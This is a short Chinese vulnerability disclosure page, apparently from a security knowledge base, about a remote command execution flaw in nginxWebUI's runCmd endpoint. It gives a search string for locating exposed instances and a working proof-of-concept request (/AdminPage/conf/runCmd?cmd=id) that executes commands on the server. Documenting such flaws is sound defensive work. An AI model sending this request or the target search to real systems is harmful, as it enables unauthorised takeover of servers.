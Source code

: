 # nginxWebUI runCmd 远程命令执行漏洞

## 漏洞描述

nginxWebUI runCmd 接口存在远程命令执行漏洞，攻击者通过漏洞可以获取到服务器权限，执行任意命令

## 漏洞影响

<a-checkbox checked>nginxWebUI  </a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="nginxwebui" </a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1656223039336-00b1d204-6cba-4178-b152-fa38c63a72c1-6057456.png)

验证请求包

```php
/AdminPage/conf/runCmd?cmd=id
```

![img](../../../.vuepress/public/img/1686057565628-a73253da-a91a-4065-9fc0-2ce30caf1e5a.png)